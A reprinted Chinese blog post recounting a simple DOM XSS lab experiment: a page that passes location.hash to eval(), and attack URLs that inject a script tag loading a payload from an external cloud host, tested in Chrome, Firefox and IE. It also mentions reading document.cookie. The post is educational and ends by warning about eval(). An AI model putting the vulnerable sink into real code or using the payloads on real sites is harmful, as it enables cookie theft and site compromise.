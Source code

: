 ```yaml
---
title: '记一次简单的DOM XSS攻击实验' 
date: 2018-12-24 2:30:06
hidden: true
slug: jhctflrvqva
categories: [reprint]
---
```


{{< raw >}}

                    
<p>之前就对XSS有所耳闻，不过昨天在学习《深入浅出nodejs》过程中，才深入了解到XSS攻击的原理，于是找到那本很早就想看的《web前端黑客技术解密》，找到 跨站攻击脚本XSS 章节，于是有了下面这个简单的XSS攻击实验。</p>
<h4>index.html</h4>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<!DOCTYPE html>
<html>
<head>
    <meta charset=&quot;utf-8&quot;>
    <title>XSSdemo</title>
</head>
<script>
    eval(location.hash.substr(1))
</script>
<body>
    
</body>
</html>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xml"><code><span class="hljs-meta">&lt;!DOCTYPE html&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">html</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">head</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">meta</span> <span class="hljs-attr">charset</span>=<span class="hljs-string">"utf-8"</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">title</span>&gt;</span>XSSdemo<span class="hljs-tag">&lt;/<span class="hljs-name">title</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">head</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript">
    <span class="hljs-built_in">eval</span>(location.hash.substr(<span class="hljs-number">1</span>))
</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">body</span>&gt;</span>
    
<span class="hljs-tag">&lt;/<span class="hljs-name">body</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">html</span>&gt;</span></code></pre>
<p>关键代码：eval(location.hash.substr(1))</p>
<h4>xss.js（XSS攻击脚本，存储在七牛云上：<a href="http://ov6jc8fwp.bkt.clouddn.com/xss.js" rel="nofollow noreferrer" target="_blank">http://ov6jc8fwp.bkt.clouddn....</a>）</h4>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="alert(&quot;你的网站被XSS攻击了！&quot;)" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs stylus"><code style="word-break: break-word; white-space: initial;"><span class="hljs-function"><span class="hljs-title">alert</span><span class="hljs-params">(<span class="hljs-string">"你的网站被XSS攻击了！"</span>)</span></span></code></pre>
<p>关键代码：alert("你的网站被XSS攻击了！")<br>Cookie被经常当作输入点，可以使用escape(document.cookie)来获取用户Cookie中保存的敏感信息，例如电话号码，密码等等。</p>
<h4>如何进行攻击？</h4>
<p>待访问文件xss.html的url上加上hash值。<br><code>#document.write("&lt;script/src=//http://ov6jc8fwp.bkt.clouddn.com/xss.js&gt;&lt;/script&gt;")</code></p>
<p>例如：<br>file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write("&lt;script/src=//<a href="http://ov6jc8fwp.bkt.clouddn.com/xss.js&amp;gt" rel="nofollow noreferrer" target="_blank">http://ov6jc8fwp.bkt.clouddn....</a>;&lt;/script&gt;")</p>
<p>在真实环境中，这段file:///C:/Users/jack/Desktop/XSSdemo/可以是<a href="http://192.168.32.89" rel="nofollow noreferrer" target="_blank">http://192.168.32.89</a>:80/，<a href="http://192.16.32.89" rel="nofollow noreferrer" target="_blank">http://192.16.32.89</a>:8080/等真实地址。<br>完整形式如：<a href="http://192.16.32.89" rel="nofollow noreferrer" target="_blank">http://192.16.32.89</a>:8080/index.html#document.write("&lt;script/src=//<a href="http://ov6jc8fwp.bkt.clouddn.com/xss.js&amp;gt" rel="nofollow noreferrer" target="_blank">http://ov6jc8fwp.bkt.clouddn....</a>;&lt;/script&gt;")</p>
<h5>可以攻击Chrome吗?</h5>
<p>在Chrome中输入</p>
<blockquote><p>file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write(&lt;script/src=//<a href="http://ov6jc8fwp.bkt.clouddn.com/xss.js&amp;gt" rel="nofollow noreferrer" target="_blank">http://ov6jc8fwp.bkt.clouddn....</a>;&lt;/script&gt;")</p></blockquote>
<p>会被Chrome拦截，拦截截图如下：</p>
<p><span class="img-wrap"><img data-src="/img/remote/1460000012253324?w=705&amp;h=458" src="https://static.alili.tech/img/remote/1460000012253324?w=705&amp;h=458" alt="" title="" style="cursor: pointer; display: inline;"></span></p>
<p>为什么会被拦截？<br>因为Chrome 的filter防御机制会导致这个无法成功，其它浏览器可以被攻击。</p>
<h5>那么如何攻击FireFox呢？</h5>
<p>（浏览器版本为Firefox 57.0 Quantum版）<br>需要对原始攻击代码做下简单调整。<br><code>eval(decodeURI(location.hash.substr(1)))</code><br>相应的访问链接也更改为<code>file:///C:/Users/jack/Desktop/XSSdemo/index.html#document.write(&lt;script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js&gt;&lt;/script&gt;")</code></p>
<p>XSS攻击FireFox成功！<br><span class="img-wrap"><img data-src="/img/remote/1460000012253325?w=965&amp;h=432" src="https://static.alili.tech/img/remote/1460000012253325?w=965&amp;h=432" alt="" title="" style="cursor: pointer; display: inline;"></span><br>可以看到，XSS脚本被成功写入到index.html<br><span class="img-wrap"><img data-src="/img/remote/1460000012253326?w=965&amp;h=429" src="https://static.alili.tech/img/remote/1460000012253326?w=965&amp;h=429" alt="" title="" style="cursor: pointer; display: inline;"></span></p>
<h5>IE可以被攻击吗？</h5>
<p>（浏览器版本为IE11.726.15063.0 ）<br>XSS攻击IE11成功！<br><span class="img-wrap"><img data-src="/img/remote/1460000012253327" src="https://static.alili.tech/img/remote/1460000012253327" alt="" title="" style="cursor: pointer; display: inline;"></span></p>
<p>攻击了这么久，难道我是要去绿，哦不，黑别人吗？<br>NoNoNo，我是为了让自己的网站更加安全。</p>
<p>之前有了解到javascript的eval()会有安全问题，通过今天的例子，才明白eval()原来会帮助 XSS攻击输入点代码进行攻击，例如：<br>本例中的输入点为location.hash.substr(1)，其值为'document.write(&lt;script/src=<a href="http://ov6jc8fwp.bkt.clouddn.com/xss.js&amp;gt" rel="nofollow noreferrer" target="_blank">http://ov6jc8fwp.bkt.clouddn....</a>;&lt;/script&gt;")'</p>
<p>本质上eval(decodeURI(location.hash.substr(1)))<br>其实就是执行了eval'(document.write(`&lt;script/src=<a href="http://ov6jc8fwp.bkt.clouddn.com/xss.js&amp;gt" rel="nofollow noreferrer" target="_blank">http://ov6jc8fwp.bkt.clouddn....</a>;&lt;/script&gt;")')</p>
<p>简单来说，<strong>eval()会执行XSS跨站攻击脚本</strong>，前端工程师在开发过程中要注意eval()使用存在的安全隐患。</p>
<p>对于浏览器喜爱程度，我想Chrome在防御XSS攻击方面又为自己加了不少分，以后强推Chrome又多了一个理由。</p>
<p>其实关于XSS攻击还有很多学问在其中，我所了解到的只是冰山一角，后续再继续探索！</p>
<p>That's it !</p>

                
{{< /raw >}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，

本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。

原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
记一次简单的DOM XSS攻击实验

## 原文链接
[https://segmentfault.com/a/1190000012253319](https://segmentfault.com/a/1190000012253319)

